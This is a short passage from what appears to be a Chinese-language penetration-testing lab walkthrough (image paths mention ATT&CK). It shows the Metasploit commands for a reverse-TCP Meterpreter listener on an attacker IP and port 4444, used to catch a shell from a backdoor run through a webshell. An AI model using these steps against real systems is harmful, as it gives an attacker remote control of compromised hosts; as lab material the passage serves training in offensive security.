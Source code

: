    ![tq1.png](img/ATT&CK1/tq/1.png)

2. msf开启监听，webshell中运行后门程序，成功获取反弹shell

   ``` powershell
   use multi/handler
   set payload windows/meterpreter/reverse_tcp
   set lhost 192.168.2.133  #攻击机器的ip，要接受反弹shell的ip地址
   set lport 4444
   run
   ```

   ![tq2.png](img/ATT&CK1/tq/2.png)
